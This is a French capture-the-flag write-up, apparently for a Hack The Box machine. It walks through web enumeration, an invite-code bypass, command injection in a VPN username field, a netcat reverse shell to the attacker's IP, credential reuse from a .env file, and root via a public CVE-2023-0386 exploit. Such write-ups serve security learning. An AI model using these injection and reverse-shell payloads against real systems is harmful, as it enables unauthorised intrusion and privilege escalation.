

# Foothold

First scan
```
nmap -sCV -T4 $box -oN nmap.scan
```
gives us


On fait un ffuf, on filtre la sortie et on obtient quelques pages intéressantes.
```
ffuf -u http://$url/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o dirs.json

cat dirs.json | jq '.results[] | select(.status != 301) | {url:.url, status:.status}'
```



On arrive sur la page `register` mais il nous faut un code d'invitation pour pouvoir se créer un compte.


La page `invite`, elle, nous permet de tester un code d'invitation.


On peut lire la fonction `inviteapi.min.js`
```
function i(code) {
  var formData = {"code": code};
  $.ajax({
    type: "POST",
    dataType: "json",
    data: formData,
    url: '/api/v1/invite/verify',
    success: function(response) {
      console.log(response)
    },
    error: function(response) {
      console.log(response)
    }
  })
}

function j() {
  $.ajax({
    type: "POST",
    dataType: "json",
    url: '/api/v1/invite/generate',
    success: function(response) {
      console.log(response)
    },
    error: function(response) {
      console.log(response)
    }
  })
}
```

On voit dans le code la fonction `generate`, on fetch cet endpoint et on obtient un code.
```
TzgyWVktOExSV1EtSUNVWDUtUk0xOTY=
```
Que l'on décode
```
O82YY-8LRWQ-ICUX5-RM196
```

On a accès à très peu de choses une fois connecté, l'onglet principal ici étant le changelogs, ils reportent plusieurs soucis notamment que les utilisateurs avaient accès au docker et que la version du site était affichée.

Quand on clique sur la génération d'un fichier ovpn, on fait appel à un endpoint `/api/v1/user/vpn/generate`. A partir de ça on doit deviner qu'il existe un endpoint `/api/v1/admin`.

On fuzz ce nouvel endpoint
```
ffuf -u http://$url/api/v1/admin/FUZZ -w /usr/share/wordlists/seclists/Directory/Web-Content/raft-medium-directories-lowercase.txt -o admin.json
cat admin.json | jq '.results[] | select(.status != 301) | {url:.url, status:.status}'
```

On trouve un endpoint `auth`.

En faisant un fetch sur `/api/v1` on obtient une liste de 3 endpoints intéressants: `/api/v1/admin/auth`, `/api/v1/admin/vpn/generate` et `/api/v1/admin/settings/update`.

Comme le tout est guidé on arrive assez vite à upgrade notre compte en admin.


On se rend sur le dernier endpoint et on trouve qu'ils nous demandent un username. Comme le fichier ovpn doit sûrement être généré par une commande cmd, on se dit qu'il y a sûrement une rce possible, on tante de mettre comme nom "$(whoami)" et bingo, on voit "www-data" dans le certificat.


Il ne nous reste plus qu'à lancer le listener et mettre comme nom 
```
$(busybox nc 10.10.14.11 4444 -e /bin/bash)
```

Et bingo, on obtient le shell! (que l'on stabilise de suite)



# Privilege Escalation to user

On commence par un simple grep pour chercher un mot de passe.
```
grep -Ri 'password' ./
```
et on trouve rapidement un mot de passe:
```
SuperDuperPass123
```



On lit le fichier `.env`:
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

En lisant `Database.php` on voit que la database est une db mysql. On se connecte avec
```
mysql -u admin -pSuperDuperPass123 -h localhost htb_prod -e "select * from users;"
```

En fait pas besoin de se connecter à la db, on peut se connecter à l'utilisateur admin en ssh.


# PrivEsc to root

Les commandes classiques (`sudo -l`, suids, sgids) ne nous donnent rien, en revanche avec un find on trouve un dossier intéressant auquel notre utilisateur a accès:
```
find / -user admin 2>/dev/null
```


On trouve `/var/mail/admin`.

Dans ce mail on nous dit que le kernel est vulnérable et en particulier celui dans OverlayFS/FUSE.



On trouve rapidement une CVE sur le web: `CVE-2023-0386`. On obtient le lien d'un github que l'on clone dans le dossier /tmp et on exécute les commandes de la CVE.
https://github.com/puckiestyle/CVE-2023-0386

On ne peut directement télécharger depuis github donc on lance un serveur python et on récupère le dossier avec
```
wget -r --no-parent http://10.10.14.10:8080/CVE-2023-0386
```

On suit les consignes: on lance les commandes
```
make all
./fuse ./ovlcap/lower ./gc
```
Et sur un autre terminal
```
./exp
```
Et on obtient le root shell.



Et voilà, la box est finie.



